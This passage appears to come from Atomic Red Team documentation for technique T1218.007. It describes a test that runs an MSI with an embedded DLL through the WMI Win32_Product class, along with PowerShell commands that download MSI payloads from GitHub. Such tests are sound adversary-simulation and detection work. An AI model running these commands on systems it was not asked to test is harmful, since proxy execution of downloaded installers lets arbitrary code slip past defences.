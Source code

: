 


#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_VBScript.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #7 - WMI Win32_Product Class - Execute Local MSI file with an embedded DLL
Executes an MSI containing an embedded DLL using the WMI Win32_Product class

**Supported Platforms:** Windows


**auto_generated_guid:** 32eb3861-30da-4993-897a-42737152f5f8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_DLL.msi|
| action | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_DLL.msi" -OutFile "#{msi_payload}"
```
